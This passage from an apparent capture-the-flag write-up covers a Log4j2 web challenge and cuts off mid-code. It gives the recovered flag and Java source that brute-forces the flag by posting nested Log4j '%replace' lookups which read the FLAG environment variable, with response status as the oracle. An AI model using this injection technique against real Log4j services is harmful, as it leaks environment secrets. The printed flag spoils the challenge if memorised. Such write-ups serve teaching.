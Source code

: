 We can now brute-force the flag character by character, verifying our guess by looking at the status code.

After implementing the idea in Java, I got the inner part of the flag: \
**`and-you-thought-it-was-over-didnt-you`**

### Java Source Code

{% raw  %}
```java
import java.io.IOException;
import java.net.URI;
import java.net.URISyntaxException;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
import java.net.http.HttpResponse.BodyHandlers;

public class Log4JBruteForcer {
  private static HttpClient client = HttpClient.newHttpClient();

  public static void main(String[] args) throws Exception {
    String flagPart = "";
    for (int i = 0; i < 100; i++) {
      String fakeFinalFlagPart = flagPart;
      int newFlagPart = CHARS_FOR_GUESSING.chars().parallel()
          .filter(it -> isFlagGuessValid(fakeFinalFlagPart + Character.toString(it)))
          .findAny().orElseThrow();
      flagPart += Character.toString(newFlagPart);
      System.out.println(flagPart);
    }
  }

  static String CHAR_LOWER_HEX = "abcdef";
  static String CHAR_LOWER_OTHER = "ghijklmnopqrstuvwxyz";
  static String CHAR_UPPER = (CHAR_LOWER_HEX + CHAR_LOWER_OTHER).toUpperCase();
  static String NUMBER = "0123456789";
  static String SPECIAL = "_-+";

  static String CHARS_FOR_GUESSING = CHAR_LOWER_HEX + CHAR_LOWER_OTHER +
                                     NUMBER + SPECIAL + CHAR_UPPER;

  private static boolean isFlagGuessValid(String flagGuess) {
    HttpRequest request;
    try {
      request = HttpRequest.newBuilder()
          .uri(new URI("https://log4j2-web.2022.ctfcompetition.com/"))
          .headers("Content-Type", "application/x-www-form-urlencoded")
          .POST(HttpRequest.BodyPublishers.ofString(
              "text=/" + "%replace{".repeat(7) + "${ENV:FLAG}}{CTF\\{"
                  + flagGuess
                  + ".*\\}}{#############################}}{#}"
                  + "{######################################################}}{#}".repeat(6)
                  + "{######################################################}"))
          .build();
    } catch (URISyntaxException e) {
      throw new RuntimeException(e);
    }
    HttpResponse<String> result;
    try {
      result = client.send(request, BodyHandlers.ofString());
    } catch (IOException | InterruptedException e) {
      throw new RuntimeException(e);
    }
```